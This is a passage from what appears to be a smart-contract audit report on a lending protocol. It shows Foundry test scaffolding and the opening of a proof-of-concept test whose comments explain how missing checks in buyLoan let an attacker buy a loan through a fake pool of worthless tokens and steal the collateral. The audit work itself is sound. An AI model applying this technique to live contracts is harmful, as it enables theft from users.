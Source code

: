 ```solidity
            maxLoanRatio: 2 ether,
            auctionLength: 1 days,
            interestRate: 1000,
            outstandingLoans: 0
        });
        bytes32 poolId = lender.setPool(p);
        vm.stopPrank();

        return poolId;
    }

    function startAuction(address _lender, uint256 loanId) public {
        uint256[] memory loans = new uint256[](1);
        loans[0] = loanId;

        vm.prank(_lender);
        lender.startAuction(loans);
    }

    function seizeLoan(uint256 loanId) public {
        uint256[] memory loans = new uint256[](1);
        loans[0] = loanId;
        lender.seizeLoan(loans);
    }

    function getPoolId(address _lender) public returns (bytes32) {
        return keccak256(
            abi.encode(
                address(_lender),
                address(loanToken),
                address(collateralToken)
            )
        );
    }
}
```

#### `AttackerStealLoanCollateral.t.sol`

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "./BaseLender.sol";

contract AttackerStealLoanCollateralTest is BaseLender {

    function setUp() override public {
        super.setUp();
    }

    function testBuyLoanWithFakePool() public {
        // The current implementation of `buyLoan` do not perform two important checks
        // 1) does not check that the newPool lender is msg.sender and set the msg.sender = loan.lender
        //    this allows anyone to purchase the loan on behalf os someone else that has not given the authorization to do that
        // 2) does not check that the newPool collateral token and loanToken are equal to the one of the loan
        //    this enable the attacker to purchase the loan by using some fake (valueless) token as pool tokens
        // This allows the attacker to purchase the loan by using a "fake pool" that has been created with "fake tokens" as coll/loan tokens
```